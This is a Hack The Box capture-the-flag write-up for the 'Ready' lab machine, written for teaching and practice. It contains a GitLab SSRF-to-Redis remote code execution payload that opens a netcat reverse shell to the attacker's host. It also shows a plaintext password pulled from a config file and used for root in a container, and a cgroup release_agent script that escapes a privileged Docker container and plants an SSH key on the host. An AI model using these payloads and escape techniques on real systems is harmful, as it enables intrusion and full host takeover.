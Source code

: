 ```yaml
---
title: "[HTB] Ready WriteUp"
date: 2021-05-15T19:00:00-00:00
categories:
  - Hack The Box
excerpt: "Ready is a medium difficulty machine on Hack the Box."
header:
  teaser: "/assets/ready/ready.jpg"
tags:
  - HTB
  - Hack The Box
  - Ready
  - WriteUp
  - Linux
  - Docker
  - GitLab
---
```


![Ready]({{ site.url }}{{ site.baseurl }}/assets/ready/ready.jpg)

Ready is a medium difficulty machine on Hack the Box. We find an outdated instance of GitLab, we exploit a known RCE vulnerability to get a shell. Some simple enumeration leads to User. We then break out of the docker container to get Root.

I begin with an nmap scan.

```bash
nmap -sC -sV -o scans/nmap 10.10.10.220
```

```bash
# Nmap 7.91 scan initiated Mon Dec 28 10:05:11 2020 as: nmap -sC -sV -o scans/nmap 10.10.10.220
Nmap scan report for 10.10.10.220
Host is up (0.073s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
5080/tcp open  http    nginx
| http-robots.txt: 53 disallowed entries (15 shown)
| / /autocomplete/users /search /api /admin /profile 
| /dashboard /projects/new /groups/new /groups/*/edit /users /help 
|_/s/ /snippets/new /snippets/*/edit
|_http-title: GitLab is not responding (502)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Dec 28 10:05:54 2020 -- 1 IP address (1 host up) scanned in 43.20 seconds
```

There is only 2 ports open, 22 and 5080. Lets check out port 5080.

![Gitlab login / Register]({{ site.url }}{{ site.baseurl }}/assets/ready/gitlab-login.png)

I register an account and login.

![Gitlab Welcome Page]({{ site.url }}{{ site.baseurl }}/assets/ready/gitlab-welcome.jpg)

After  clicking around for a while I notice the gitlab version number on the help page, with a warning about gitlab being out of date.

![Gitlab Version]({{ site.url }}{{ site.baseurl }}/assets/ready/gitlab-version.jpg)

 Some googling reveals an RCE vulnerability in this version of gitlab.

[GitLab 11.4.7 Remote Code Execution](https://liveoverflow.com/gitlab-11-4-7-remote-code-execution-real-world-ctf-2018/)

To get Remote code execution we follow the steps in the article.

- Create a new project
- Select "Import Project"
- click "Repo by URL"
- At this stage we need a payload, we can use the one from the article 

```
git://[0:0:0:0:0:ffff:127.0.0.1]:6379/
 multi
 sadd resque:gitlab:queues system_hook_push
 lpush resque:gitlab:queue:system_hook_push "{\"class\":\"GitlabShellWorker\",\"args\":[\"class_eval\",\"open(\'|cat /flag | nc 10.10.14.2 9001 -e /bin/bash \').read\"],\"retry\":3,\"queue\":\"system_hook_push\",\"jid\":\"ad52abc5641173e217eb2e52\",\"created_at\":1513714403.8122594,\"enqueued_at\":1513714403.8129568}"
 exec
 exec
/ssrf.git
```
We URL encode the payload
```
git://[0:0:0:0:0:ffff:127.0.0.1]:6379/%0D%0A%20multi%0D%0A%20sadd%20resque%3Agitlab%3Aqueues%20system%5Fhook%5Fpush%0D%0A%20lpush%20resque%3Agitlab%3Aqueue%3Asystem%5Fhook%5Fpush%20%22%7B%5C%22class%5C%22%3A%5C%22GitlabShellWorker%5C%22%2C%5C%22args%5C%22%3A%5B%5C%22class%5Feval%5C%22%2C%5C%22open%28%5C%27%7Ccat%20%2Fflag%20%7C%20nc%2010%2E10%2E14%2E10%209001%20%2de%20%2fbin%2fbash%20%5C%27%29%2Eread%5C%22%5D%2C%5C%22retry%5C%22%3A3%2C%5C%22queue%5C%22%3A%5C%22system%5Fhook%5Fpush%5C%22%2C%5C%22jid%5C%22%3A%5C%22ad52abc5641173e217eb2e52%5C%22%2C%5C%22created%5Fat%5C%22%3A1513714403%2E8122594%2C%5C%22enqueued%5Fat%5C%22%3A1513714403%2E8129568%7D%22%0D%0A%20exec%0D%0A%20exec%0D%0A/ssrf.git
```

And add it to the URL

- Before Creating the project we need to start a listener to catch the shell

```bash
nc -lvnp 9001
```

- Click Create

We get a shell!

```bash
id 
uid=998(git) gid=990(git) groups=998(git)
```

### Privilege Escalation 

The shell we are in is a docker image, to get the user flag we will need to get root in the docker container. After some enumeration we find an interesting file /opt/backup/gitlab.rb

```bash
$ cat gitlab.rb
...
# gitlab_rails['smtp_enable'] = true                                                           
# gitlab_rails['smtp_address'] = "smtp.server"                                                 
# gitlab_rails['smtp_port'] = 465                                                              
# gitlab_rails['smtp_user_name'] = "smtp user"                                                      
gitlab_rails['smtp_password'] = "wW59U!ZKMbG9+*#h"                                  
# gitlab_rails['smtp_domain'] = "example.com"                                                  
# gitlab_rails['smtp_authentication'] = "login"                                                
# gitlab_rails['smtp_enable_starttls_auto'] = true                                             
# gitlab_rails['smtp_tls'] = false
...
```

We can use the password to change user to root within the docker container. And get the User flag.

```bash
su 
password: wW59U!ZKMbG9+*#h
root@gitlab:/opt/backup# cat ~/user.txt
```

### Getting Root

The docker container that we are still in is a privileged container, meaning it was run with the --privileged flag. 

[Privileged Containers](https://betterprogramming.pub/escaping-docker-privileged-containers-a7ae7d17f5a1).

By following the article we can write the following bash script. Replacing your_id_rsa.pub with your id_rsa.pub contents.

```bash
mkdir /tmp/JDMCE && mount -t cgroup -o rdma cgroup /tmp/JDMCE && mkdir /tmp/JDMCE/x
echo 1 > /tmp/JDMCE/x/notify_on_release
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > /tmp/JDMCE/release_agent

echo '#!/bin/sh' > /cmd
echo "echo 'your_id_rsa.pub' > /root/.ssh/authorized_keys" >> /cmd
chmod a+x /cmd
sh -c "echo \$\$ > /tmp/JDMCE/x/cgroup.procs"
```

We transfer the script to the taget machine, make it executable and run it. The script will add our id_rsa.pub to the authorized_keys file on the target.

```bash
wget http://10.10.14.2/exploit.sh
chmod +x exploit.sh
./exploit.sh
```

We can then SSH in and get the root flag

```bash
root@ready:~# id 
uid=0(root) gid=0(root) groups=0(root)
```

